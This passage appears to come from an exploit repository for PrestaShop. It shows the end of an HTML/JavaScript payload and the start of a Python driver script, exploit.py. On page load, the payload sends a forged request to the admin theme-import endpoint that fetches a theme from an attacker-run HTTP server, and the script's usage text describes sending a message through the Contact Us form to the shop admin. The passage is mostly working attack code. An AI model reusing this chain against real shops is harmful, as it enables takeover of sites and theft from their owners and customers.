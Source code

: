 ```html
                }

                const formData = new FormData();
                formData.append('import_theme[import_from_web]', `http://${httpServerIp}:${httpServerPort}/${fileNameOfTheme}`);
                formData.append('import_theme[_token]', csrfToken);

                const postUrl = `/${path}/index.php/improve/design/themes/import?_token=${locationHeaderToken}`;
                console.log('POST URL:', postUrl);

                const response = await fetch(postUrl, {
                    method: 'POST',
                    body: formData,
                });

                if (response.ok) {
                    console.log('Theme imported successfully');
                } else {
                    console.error('Failed to import theme. Response Status:', response.status);
                }
            } catch (error) {
                console.error('Error importing theme:', error);
            }
        }

        document.addEventListener('DOMContentLoaded', function() {
            importTheme();
        });
    </script>
</body>
</html>
```

3. `exploit.py`

```python
import argparse, requests, subprocess, time, threading, sys, http.server, socketserver
from bs4 import BeautifulSoup


print_lock = threading.Lock()
stop_event = threading.Event()

def usage():
    print("Usage: python script.py <host_url> <email> <message_content> <exploit_path>")
    print("")
    print("Options:")
    print("  host_url          The Presta Shop base url (e.g. http://prestashop:8000)")
    print("  email             The email address of admin user (e.g. admin@prestashop.com)")
    print("  message_content   Message to send in Contact Us form (e.g. 'Hello, I am exploiting you')")
    print("  exploit_path      The path of the exploit HTML (e.g. /path/to/exploit.html)")
    print("")
    print("Example:")
    print("  python exploit.py http://prestashop:8000 admin@example.com 'Hello, I am exploiting you' /path/to/exploit.html")


def __parse_args(argv):
    num_args = len(argv)

    if num_args == 1:
        host_url = input("[?] Please enter the URL (e.g., http://prestashop:8000): ")
```